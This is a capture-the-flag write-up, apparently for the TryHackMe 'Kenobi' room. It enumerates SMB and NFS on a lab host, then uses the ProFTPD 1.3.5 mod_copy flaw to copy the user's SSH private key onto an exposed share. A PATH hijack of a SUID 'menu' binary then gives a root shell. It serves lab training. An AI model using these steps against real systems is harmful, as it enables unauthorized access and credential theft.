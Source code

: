 ```yaml
---
title: Kenobi
tags:
- writeups
---
```


## Recon

![[write-ups/images/nmap_scan_kenobi.png]]

### Enumerating SMB
Started with `enum4linux` or with `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.83.28`. That revealed an open share with anonymity login enabled which exposed a `log.txt` file. Tried getting it with  `smbget -U "" -R smb://10.10.83.28/anonymous`, but got this back:

```bash
Can't read 64000 bytes at offset 0, file smb://10.10.83.28/anonymous/log.txt
Failed to download /log.txt: Connection timed out
```

A workaround for this is to mount locally & copy the content:

```bash
sudo mkdir /mnt/smbfs && sudo mount -t cifs //10.10.83.28/anonymous /mnt/smbfs -o username=none && cp /mnt/smbfs/log.txt .
```

![[write-ups/images/Pasted image 20220801215010.png]]

### NFS
We see port `111` running the `rpcbind` service. From the [man page](https://www.man7.org/linux/man-pages/man8/rpcbind.8.html), we see that this service just converts remote procedure calls _(RPC)_ into universal addresses. To enumerate it I used nmap: `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.83.28`

```bash
PORT    STATE SERVICE
111/tcp open  rpcbind
| nfs-showmount: 
|_  /var *
```

### FTP
We also have an FTP port open on `21` which runs ProFTPD 1.3.5. Running `searchsploit ProFTPD 1.3.5` we get

![[write-ups/images/Pasted image 20220801131619.png]]

So we have an [RCE](https://packetstormsecurity.com/files/162777/ProFTPd-1.3.5-Remote-Command-Execution.html) by leveraging the `mod_copy` module, to get the script I ran: `searchsploit -m 36803`. Thus, we can use the `SITE CPFR` & `SITE CPTO` cmds to copy files/dirs from one place to another on the server => any unauthenticated client can leverage them to copy files from any part of the filesystem to a chosen destination

## Getting user
Since we have the open network file system in `/var` & we know that the FTP service is running as the `Kenobi` user *(from `log.txt`)* => we can leak Kenobi's SSH key

![[write-ups/images/Pasted image 20220801131505.png]]

Then just `chmod 700 id_rsa && ssh -i id_rsa kenobi@10.10.83.28`

## Privilage Escalation
- find `SUID`, `SGID` & `Sticky` binaries: `find / -perm -u=s -type f 2>/dev/null`
	- ![[write-ups/images/Pasted image 20220801133918.png]]
- we see the `menu` binary which is quite peculiar, so let's run it
	- ![[write-ups/images/Pasted image 20220801134008.png]]
- it seems that it's just a helper script that let's us check the status of the web server, get the kernel version & run `ifconfig`. Let's do some more digging
	- ![[write-ups/images/Pasted image 20220801134236.png]]
- we see that it uses `curl`, `uname` & `ifconfig`. However, it's not specifying a full path to the binary => we can hijack one of these programs by placing a copy in the `$PATH` before the original one & run whatever we want, so let's try it
	```bash
	echo /bin/bash > ifconfig
	chmod 777 ifconfig
	mkdir bin
	mv ifconfig bin
	```
	- ![[write-ups/images/Pasted image 20220801134826.png]]

## Refs
- [mod_copy module docs](http://www.proftpd.org/docs/contrib/mod_copy.html)
- [HakTricks privesc linux](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#path)

## See Also
- [[write-ups/THM]]
